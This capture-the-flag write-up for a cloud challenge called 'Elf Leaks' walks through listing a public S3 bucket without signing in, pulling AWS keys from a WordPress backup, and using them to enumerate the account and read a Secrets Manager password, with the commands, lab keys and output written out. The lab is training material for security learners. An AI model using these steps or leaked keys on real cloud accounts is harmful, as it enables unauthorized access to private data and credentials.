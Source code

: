 # `[Cloud]` Elf Leaks

## Story
>In a move to taunt the Best Festival Company, Grinch Enterprises sends out an email to the entire company with everyone's name and date of birth. McSkidy looks quite stressed with the breach and thinks about the potential legal consequences. She talks to McInfra to try to determine the origin of the breach.

## Challenge
>Somehow, the Grinch has managed to get hold of all the Elves' names and email addresses. How could this have happened? Given the scope of the breach, McSkidy believes someone in HR must be involved. You know that HR recently launched a new portal site using WordPress. You also know that HR didn't request any infrastructure from IT to deploy this portal site. Where is that portal hosted?
>
>Here is the image HR sent out announcing the new site:
>
>![img](AdditionalFiles/flyer.png)
>
>Based on that, can you figure out how the Grinch got access to the employee database?

### What is the name of the S3 Bucket used to host the HR Website announcement? `******.*******************.***`

I right-clicked the image and opened it in a new tab. This showed me the URL it was coming from.

<details>
  <summary>Answer:</summary>

```
images.bestfestivalcompany.com
```
</details>

### What is the message left in the flag.txt object from that bucket? `**** **** ** *** **** ***** **** **** *** ***** ** ** **** ** *****`

```
$ aws s3 cp s3://images.bestfestivalcompany.com/flag.txt . --no-sign-request
download: s3://images.bestfestivalcompany.com/flag.txt to ./flag.txt
$ cat flag.txt 
It's easy to get your elves data when you leave it so easy to find!
```

<details>
  <summary>Answer:</summary>

```
It's easy to get your elves data when you leave it so easy to find!
```
</details>

### What other file in that bucket looks interesting to you? `*********.***`

```
$ aws s3 ls s3://images.bestfestivalcompany.com/ --no-sign-request
2021-11-13 15:06:51       6148 .DS_Store
2021-11-13 12:43:03     108420 0vF39p3.png
2021-11-27 11:55:21     705191 AWSConsole.png
2021-11-13 12:43:03       5652 aws-logo.png
2021-11-13 15:06:51         68 flag.txt
2021-11-13 15:06:51    2349068 flyer.png
2021-11-13 12:43:03      92531 presents.jpg
2021-11-13 12:43:03       4680 tree.png
2021-11-23 23:52:22   16556739 wp-backup.zip
```

Out of all of those, I would say `wp-backup.zip` simply as it could contain a lot of information.

<details>
  <summary>Answer:</summary>

```
wp-backup.zip
```
</details>

### What is the AWS Access Key ID in that file? `********************`

```
aws s3 cp s3://images.bestfestivalcompany.com/wp-backup.zip . --no-sign-request
unzip wp-backup.zip
cd wp-backup/
less wp-config.php
```
I then came across the following in the file:

```
...
define('S3_UPLOADS_BUCKET', 'images.bestfestivalcompany.com');
define('S3_UPLOADS_KEY', 'AKIAQI52OJVCPZXFYAOI');
define('S3_UPLOADS_SECRET', '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');
define('S3_UPLOADS_REGION', 'us-east-1');
...
```
<details>
  <summary>Answer:</summary>

```
AKIAQI52OJVCPZXFYAOI
```
</details>

### What is the AWS Account ID that access-key works for? `************`

```
$ aws configure --profile martrewes
AWS Access Key ID [None]: AKIAQI52OJVCPZXFYAOI
AWS Secret Access Key [None]: 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
Default region name [None]: us-east-1
Default output format [None]: 
```
```
$ aws sts get-access-key-info --access-key-id AKIAQI52OJVCPZXFYAOI --profile martrewes
{
    "Account": "019181489476"
}

```
<details>
  <summary>Answer:</summary>

```
019181489476
```
</details>

### What is the Username for that access-key? `***********.***`

```
$ aws sts get-caller-identity --profile martrewes
{
    "UserId": "AIDAQI52OJVCFHT3E73BO",
    "Account": "019181489476",
    "Arn": "arn:aws:iam::019181489476:user/ElfMcHR@bfc.com"
}
```
<details>
  <summary>Answer:</summary>

```
ElfMcHR@bfc.com
```
</details>


### There is an EC2 Instance in this account. Under the TAGs, what is the Name of the instance? `*********`

```
aws ec2 describe-instances --output text --profile martrewes > instances.txt
```

<details>
  <summary>Answer:</summary>

```
HR-Portal
```
</details>

### What is the database password stored in Secrets Manager? `***********`

```
aws secretsmanager list-secrets --profile martrewes > secrets.txt
$ aws secretsmanager get-secret-value --secret-id HR-Password --profile martrewes
{
    "ARN": "arn:aws:secretsmanager:us-east-1:019181489476:secret:HR-Password-8AkWYF",
    "Name": "HR-Password",
    "VersionId": "70630b3c-4fbe-4a24-885d-18445bd808b1",
    "SecretString": "The Secret you're looking for is not in this **REGION**. Santa wants to have low latency to his databases. Look closer to where he lives.",
    "VersionStages": [
        "AWSCURRENT"
    ],
    "CreatedDate": "2021-11-24T01:29:07.718000+00:00"
}
```
*Getting closer*

```
$ aws secretsmanager get-secret-value --secret-id HR-Password --profile martrewes --region eu-north-1
{
    "ARN": "arn:aws:secretsmanager:eu-north-1:019181489476:secret:HR-Password-KIJEvK",
    "Name": "HR-Password",
    "VersionId": "f806c3cd-ea20-4a1a-948f-80927f3ad366",
    "SecretString": "Winter2021!",
    "VersionStages": [
        "AWSCURRENT"
    ],
    "CreatedDate": "2021-11-13T13:26:19.996000+00:00"
}
```

<details>
  <summary>Answer:</summary>

```
Winter2021!
```
</details>